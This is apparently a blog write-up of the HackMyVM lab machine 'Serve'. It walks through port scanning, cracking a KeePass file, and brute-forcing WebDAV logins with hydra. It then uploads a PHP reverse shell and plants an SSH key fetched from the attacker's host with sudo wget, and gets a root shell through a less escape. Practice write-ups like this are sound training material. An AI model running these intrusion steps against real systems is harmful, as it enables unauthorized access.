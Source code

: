 ```yaml
---
layout: post
author: kohaku
title:  "Serve"
date:   2021-12-31 12:32:26 AM -03
category: HackMyVM
---
```

# Serve

[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Serve)

## Nmap Results

{% highlight bash %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-15 15:20 -03
Nmap scan report for serve (192.168.15.91)
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9a:0c:75:5a:bb:bb:06:a2:9a:7d:be:91:ca:45:45:e4 (RSA)
|   256 07:7d:e7:0f:0b:5e:5a:90:e9:33:72:68:49:3b:f5:8c (ECDSA)
|_  256 6c:15:32:a7:42:e7:9f:da:63:66:7d:3a:be:fb:bf:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:26:02:2F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

## FFUF Results for [http://192.168.15.90/](http://192.168.15.90/)

{% highlight bash %}
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10]
notes.txt               [Status: 200, Size: 173, Words: 24, Lines: 12]
secrets                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
{% endhighlight %}

### -> notes.txt

Hi teo,
the database with your credentials to access the resource are in the secret directory
(Don't forget to change X to your employee number)

regards
IT department


## FFUF Results for [http://192.168.15.90/secrets](http://192.168.15.90/secrets)


db.kdbx                 [Status: 200, Size: 2078, Words: 12, Lines: 15]
index.html              [Status: 200, Size: 7, Words: 1, Lines: 8]


## Cracking the password of "db.kdbx"

{% highlight bash %}
keepass2john db.kdbx > hashKeepass.txt
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt  hashKeepass.txt
{% endhighlight %}


dreams           (db)	<--- password


## Acessing db.kdbx


admin:w3bd4vXXX


Now we need to find the right employee number to fill the XXX.

{% highlight bash %}
crunch 9 9 -t w3bd4v%%% -o pass.dic
hydra -l admin -P pass.dic 192.168.15.91 http-get /webdav -f -I
{% endhighlight %}

Result


[80][http-get] host: 192.168.15.91   login: admin   password: w3bd4v513


## Submitting a reverse shell

{% highlight bash %}
curl -T reverse.php [http://192.168.15.91/webdav/](http://192.168.15.91/webdav/) --digest -u admin:w3bd4v513
nc -nvlp 4444
curl [http://192.168.15.91/webdav/reverse.php](http://192.168.15.91/webdav/reverse.php) --digest -u admin:w3bd4v513
{% endhighlight  %}

Checking the "sudo -l", it's possible to execute wget as teo.
So, upload a rsa key to teo

{% highlight bash %}
sudo -u teo wget [http://192.168.15.85:8000/id_rsa.pub](http://192.168.15.85:8000/id_rsa.pub) -O /home/teo/.ssh/authorized_keys
{% endhighlight  %}

Then, just login via ssh using teo user.


user.txt	--> 	ZHgKGiUPm7T7yyLDD9HnqXF3eIkLs6

## PrivEsc

{% highlight bash %}
sudo -l
{% endhighlight  %}


User teo may run the following commands on Serve:
(root) NOPASSWD: /usr/local/bin/bro


Executing "sudo /usr/local/bin/bro curl", note that the binary utilize "less" utility, so just run "!bash".
And there it is, you got root shell


root.txt	-->	vWiU6Ums1pmZAYX0QyXvkclyPZ4lyi
